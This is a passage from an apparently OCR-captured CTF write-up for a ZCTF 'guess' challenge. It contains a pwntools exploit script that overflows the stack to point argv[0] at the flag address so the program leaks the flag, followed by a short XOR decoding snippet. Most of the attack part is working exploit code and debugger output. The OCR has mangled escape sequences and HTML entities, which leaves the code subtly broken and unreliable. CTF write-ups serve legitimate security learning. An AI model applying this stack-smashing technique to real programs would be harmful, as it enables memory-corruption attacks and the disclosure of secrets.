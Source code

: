 ```
return True
def pwn(io):
#io.read_until("please guess the flag:n")
io.readuntil("please guess the flag:n")
"""
[stack] : 0x7fffff422210 --&gt; 0x73736575672f2e (b'./guess')
!![stack] : 0x7fffff421278 --&gt; 0x7fffff422210 --&gt; 0x73736575672f2e (b'./guess')
[stack] : 0x7fffff422ff0 --&gt; 0x73736575672f2e (b'./guess')
!![stack] : 0x7fffff4215e0 --&gt; 0x7fffff422ff0 --&gt; 0x73736575672f2e (b'./guess')
[stack] : 0x7fffc0eb7bfa --&gt; 0x73736575672f6e (b'n/guess')
[stack] : 0x7fffc0eb7ff0 --&gt; 0x73736575672f2e (b'./guess')
!![stack] : 0x7fffc0eb6c48 --&gt; 0x7fffc0eb7ff0 --&gt; 0x73736575672f2e (b'./guess')
arg[0]: 0x7fffc0eb67c0 ('a' &lt;repeats 15 times&gt;...)
"""
flag_addr = 0x6010C0 + 5 #+ 3 + 6
length = 34
payload = "ZCTF`{`"
payload = payload.ljust(length, 'b')
payload += "x00"
payload = payload.ljust(0x7fffff421278 - 0x7fffff421150, 'a')
#payload = payload.ljust(0x100, 'a')
payload += p64(flag_addr)
#payload = 'a' * (0x7fffc0eb68e8 - 0x7fffc0eb67c0) + p64(flag_addr)
raw_input()
#io.gdb_hint()
#io.writeline(payload)
#payload = 'a' * 0x50
io.writeline(payload)
#io.interact()
io.interactive()
"""
#leak length = 9
for i in range(32, 256):
print i
io = get_io(target)
if leak_len(io, i) == True:
break
exit(0)
"""
io = get_io(target)
pwn(io)
```

然后异或即可:



```
a = '0x07x03SSS;=x0cQQ&amp;=x16R=[x17x07x111=x04x0e"x05]x1fh'
result = []
for i in a:
result.append(chr(ord(i) ^ ord('b')))
print "".join(result)
```
